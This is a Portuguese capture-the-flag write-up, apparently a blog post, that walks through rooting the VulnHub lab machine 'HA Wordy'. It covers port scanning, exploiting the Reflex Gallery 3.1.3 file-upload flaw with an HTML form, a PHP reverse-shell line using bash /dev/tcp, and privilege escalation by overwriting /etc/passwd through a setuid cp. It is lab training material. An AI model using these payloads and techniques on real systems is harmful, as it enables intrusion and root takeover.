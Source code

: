 ```yaml
---
title: Desafio 2 - VM 07
author: R3d-4rr0w
date: 2022-04-14 05:00:00 -0300
categories: [Desafio 2, Beco do Exploit, Writeups]
tags: [Desafio 2, Writeups, Linux, WordPress]
image: "/img/desafio2/becoxpl-logo.png"
alt: "Desafio2-VM7"
---
```


# VM 7 - Ha Hardy

---

## [VM 7 - Ha Hardy](https://www.vulnhub.com/entry/ha-wordy,363/)

---

## Reconhecimento:

NMAP

```bash
┌──(red_arrow㉿kali)-[~]
└─$ nmap -sV -Pn -v 192.168.56.10
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-11 16:00 EDT
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

No scan no nmap, só achamos a porta 80 aberta, que está rodando um Apache.

Ao abrir no browser,  vemos a página default do Apache.

<imr src ="/img/desafio2/vm7/hardy.png">

Vamos fazer uma enumeração de diretórios usando o FFUF.

Podemos ver que existe um wordpress rodando.

<imr src ="/img/desafio2/vm7/hardy 1.png">

<imr src ="/img/desafio2/vm7/hardy 2.png">

Olhando código fonte, vemos os plugins que o WordPress está usando.

Buscando por exploits, achamos um do reflex-gallery

<imr src ="/img/desafio2/vm7/hardy 3.png">

Olhando no diretório raiz do plugin, achamos o readme.txt.

<imr src ="/img/desafio2/vm7/hardy 4.png">

Dentro do readme.txt, vemos a versão do plugin, que é a 3.1.3.

<imr src ="/img/desafio2/vm7/hardy 5.png">

No searchsploit, existe um exploit para a versão que vimos acima.

<imr src ="/img/desafio2/vm7/hardy 6.png">

>**💡[WordPress Plugin Reflex Gallery 3.1.3 - Arbitrary File Upload](https://www.exploit-db.com/exploits/36374)**


Dentro do exploit, fala do path para a exploração.

```bash
http://192.168.56.10/wordpress/wp-content/plugins/reflex-gallery/admin/scripts/FileUploader/php.php
```

Que ao ser acessado, retorna um erro dizendo que não tem arquivos carregados, então vemos que existe o serviço de upload e será possivel explorar.

<imr src ="/img/desafio2/vm7/hardy 7.png">

---

## Exploração do File Upload

Como não achamos o lugar para fazer o upload, no exploit tem o código de um formulário que poderemos usar para o isso.

```html
<form method="POST" action="http://192.168.56.10/wordpress/wp-content/plugins/reflex-gallery/admin/scripts/FileUploader/php.php" enctype="multipart/form-data" >
    <input type="file" name="qqfile"><br>
    <input type="submit" name="Submit" value="Pwn!">
</form>
```

Agora precisamos criar a reverse shell para enviar usando esse formulário.

Vamos usar uma shell simples que utiliza a função [exec()](https://www.php.net/manual/en/function.exec.php) do php.

><?php
>
>exec("/bin/bash -c 'bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1'");
>
>?>


Vamos então abrir o formulário que criamos e fazer o upload da reverse shell no servidor alvo.

<imr src ="/img/desafio2/vm7/hardy 8.png">

<imr src ="/img/desafio2/vm7/hardy 9.png">

Ao abrir o path que armazena os arquivos carregados, que é citado no exploit, vemos o nosso arquivo.

<imr src ="/img/desafio2/vm7/hardy 10.png">

Agora vamos configurar o netcat para receber a conexão reversa e depois abrimos o código php que enviamos no browser, para termos acesso a reverse shell que enviamos.

<imr src ="/img/desafio2/vm7/hardy 11.png">

---

## Escalagem de Privilégio

Ao tentar ver os comandos que o usuário pode executar como root, usando o sudo -l, é pedida a senha do usuário, como não temos a senha vamos ver quais arquivos ele tem permissão para executar usando o find.

<imr src ="/img/desafio2/vm7/hardy 12.png">

Vemos acima que ele tem permissão de usar o /bin/cp e pode copiar arquivos como root.

Vamos usar para manipular o arquivo /etc/passwd e criar um novo usuario com privilégio elevado.

Primeiro iremos ler o arquivo /etc/passwd e copiar todo o contéudo, depois vamos criar um arquivo na nossa máquina com o mesmo nome /etc/passwd e inserir o nosso usuário seguindo o padrão utilizado pelo arquivo.

>**💡[Understanding /etc/passwd file fields](https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/)**


Para criar a senha, vamos usar o openssl e criar o hash no mesmo padrão do arquivo /etc/shadow que é usado no linux.

> **💡 [OpenSSL - PASSWD](https://www.openssl.org/docs/man1.1.1/man1/openssl-passwd.html)**


```bash
┌──(red_arrow㉿kali)-[~]
└─$ openssl passwd -1 -salt red-arrow frecha
```

Agora vamos inserir o usuario no arquivo, com os mesmos dados do root.

<imr src ="/img/desafio2/vm7/hardy 13.png">

Então vamos fazer o upload do arquivo que criamos para o alvo.

Podemos usar o mesmo formulario de upload.

<imr src ="/img/desafio2/vm7/hardy 14.png">

<imr src ="/img/desafio2/vm7/hardy 15.png">

<imr src ="/img/desafio2/vm7/hardy 16.png">

Podemos notar que ele está com o nome diferente, existe um ponto ( . ) no final do nome. 

Vamos copiar ele para criar um arquivo com o nome correto, sem o ponto.

<imr src ="/img/desafio2/vm7/hardy 17.png">

Agora vamos copiar o arquivo para a pasta /etc/ e substituir o original, pelo que tem o nosso usuário.

<imr src ="/img/desafio2/vm7/hardy 18.png">

Ao tentar trocar de usuário, ele da um erro, dizendo que o su precisa ser executado de um terminal.

<imr src ="/img/desafio2/vm7/hardy 19.png">

Vamos importar a shell interativa TTY, usando o python 3.

Agora podemos mudar para o nosso usuário com privilégio elevado.

<imr src ="/img/desafio2/vm7/hardy 20.png">

Podemos ver que temos acesso root.

<imr src ="/img/desafio2/vm7/hardy 21.png">

E dentro do diretório /root, temos a flag da VM.

<imr src ="/img/desafio2/vm7/hardy 22.png">